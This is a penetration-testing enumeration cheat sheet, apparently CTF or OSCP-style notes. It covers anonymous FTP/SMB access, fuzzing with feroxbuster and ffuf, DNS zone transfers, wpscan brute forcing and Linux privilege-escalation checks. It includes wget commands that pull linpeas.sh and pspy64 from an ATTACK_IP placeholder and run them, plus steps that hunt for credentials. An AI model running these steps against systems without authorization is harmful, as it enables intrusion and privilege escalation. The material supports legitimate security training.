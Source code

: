 # Enumeration Methodology

### 1) Low Hanging Fruits

1) Check for anonymous access for FTP and SMB protocols

If yes, then grab any files you find within the network share or FTP folder

2) Check protocol/application version for possible public RCE or similar exploit (Example: EternalBlue)

3) Within a web page, check the page source for any comments that might have been left out (<!--) or interesting files that we might encounter

They may contain credentials, etc

### 2) Directory Fuzzing

Enumerate the directories of a webserver to check for admin pages, specific application directories, etc to further discover the webapp

You can also enumerate other interesting files like .txt, .conf or .php 

Wordlists to use: 

1) common.txt

2) directory-list-2.3-medium.txt

        feroxbuster -u http://DOMAIN.LOCAL/ -w /usr/share/wordlists/dirb/common.txt -C 404 -x txt

### 3) Subdomain/Vhost Fuzzing

Enumerate vhosts of the machine to discover another attack surface

Use the filters for false positives

Wordlists to use:

DNS-Subdomains-top-1million-11000.txt

        ffuf -c -w /usr/share/wordlists/seclists/Discovery/DNS/Subdomains-top-1million-11000.txt -u http://domain.local/ -H 'Host: FUZZ.local.local' -fs NUM

If port 53 (DNS) is open, you can attempt to do a zone transfer to dump all DNS entries from a host

        dig axfr TARGET_IP

### 4) CMS Enumeration

If we find a wordpress installation on the server, use wpscan tool to scan for information.

You can also conduct attacks with wpscan like bruteforce if we have a valid user.

Same methodology works with other CMS as well like Joomla and Drupal

    wpscan --url http://domain.local/

### 5) Linux Local Privilege Escalation LPE Enumeration

On a linux machine, we can do some checks to see if we can exploit them to do lateral movement, or even root the machine.

#### Checks:

1) Sudo privileges (Authenticated)

       sudo -l

2) SUID bit files

        find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null	

3) Open ports/services/applications within the machine

        ss -tulpn
        netstat -ano

4) Check for running processes either as root, or as another target user for lateral movement

        wget http://ATTACK_IP:PORT/pspy64

        chmod +x ./pspy64

        ./pspy64

5) Check detailed contents of a directory like hidden files, file size, ownership

        ls -lah

6) Automated Enumeration

        wget http://ATTACK_IP:PORT/linpeas.sh

        chmod +x ./linpeas.sh

        ./linpeas.sh

7) Interesting groups of the current user

        id

8) Environment Variables

        env

9) Command history

        history

10) Writeable files and directories of the current user

        find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u

11) Chech the current user's PATH variable contents

        echo $PATH

12) World-writeable files and directories

        find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null
        find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null

